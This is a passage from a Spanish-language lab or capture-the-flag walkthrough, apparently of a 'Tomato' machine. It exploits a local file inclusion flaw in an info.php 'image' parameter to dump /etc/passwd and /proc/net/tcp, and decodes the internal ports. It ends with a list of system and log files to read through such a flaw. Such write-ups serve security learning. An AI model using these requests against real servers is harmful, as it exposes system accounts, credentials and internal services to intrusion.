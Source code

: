 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```

Vamos a empezar a enumerar para ver si podemos ver los puertos internos

```bash
❯ curl -s X GET "http://192.168.1.65/antibot_image/antibots/info.php?image=/proc/net/tcp" | grep "</body></html>" -A 1000 | sed 's/<\/div><\/body><\/html>//' | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u | while read port; do echo "[+]Puerto $port"; done
[+]Puerto 0050
[+]Puerto 08A3
[+]Puerto 22B8
```

Ahora vamos a convertirlo a decimal

```bash
❯ curl -s X GET "http://192.168.1.65/antibot_image/antibots/info.php?image=/proc/net/tcp" | grep "</body></html>" -A 1000 | sed 's/<\/div><\/body><\/html>//' | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u | while read port; do echo "[+]Puerto $port -> $((0x$port))"; done
[+]Puerto 0050 -> 80
[+]Puerto 08A3 -> 2211
[+]Puerto 22B8 -> 8888
```

Vamos a ver si estamos en la maquina victima `4101A8C0`

```bash
❯ echo "$((0xC0)).$((0xA8)).$((0x01)).$((0x41))"
192.168.1.65
```

Y si efectivamente estamos en la maquina victima y no en un contenedor o `docker`

Para aprovecharnos del `LFI` vamos a buscar rutas interesantes para enumerar el sistema si alguna ves explotas un `LFI` puedes buscar por estas rutas `/proc/sched_debug`,  `/etc/passwd`, `/proc/net/fib_trie`, `/proc/net/tcp`, `/var/log/apache2/access.log` y `/var/log/auth.log` 

En este caso vamos a ver el `/proc/sched_debug` con esto podemos ver servicios que esten corriendo se esta corriendo `apache2`

